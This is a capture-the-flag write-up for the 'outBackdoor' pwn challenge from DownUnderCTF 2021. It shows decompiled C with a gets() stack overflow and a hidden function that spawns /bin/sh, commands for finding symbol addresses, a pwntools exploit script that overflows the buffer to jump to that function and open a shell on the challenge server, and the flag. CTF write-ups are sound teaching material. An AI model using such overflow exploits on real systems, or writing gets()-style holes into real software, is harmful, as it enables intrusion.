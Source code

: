 #### Challenge:

Fool me once, shame on you. Fool me twice, shame on me. [outBackdoor](./outBackdoor ":ignore")

`nc pwn-2021.duc.tf 31921`

---

#### Solution:

- decompiling the binary reveals hidden function `outBackdoor` which gives us shell access, as it's `amd64` we also need to align the stack with `ret` address of `main` function before our `IP` override

```c
void outBackdoor(void)
{
  puts("\n\nW...w...Wait? Who put this backdoor out back here?");
  system("/bin/sh");
  return;
}

void main(void)
{
  char local_18 [16];
  
  buffer_init();
  puts("\nFool me once, shame on you. Fool me twice, shame on me.");
  puts("\nSeriously though, what features would be cool? Maybe it could play a song?");
  gets(local_18);
  return 0;
}
```

```bash
readelf -s ./outBackdoor | grep -i backdoor
#    64: 00000000004011d7    36 FUNC    GLOBAL DEFAULT   13 outBackdoor
nm -S ./outBackdoor | grep main
#    0000000000401195 0000000000000042 T main
```

```python
#!/usr/bin/env python3

from pwn import *

r = remote('pwn-2021.duc.tf', 31921)

print(r.recvuntil(b'song?').decode('utf-8').strip())
r.sendline(b'\x00'*(24)  + p64(0x4011d6)+ p64(0x4011d7))
print(r.recvuntil(b'here?').decode('utf-8').strip())
r.interactive()
```

---

<details><summary>FLAG:</summary>

```
DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}
```

</details>
<br/>
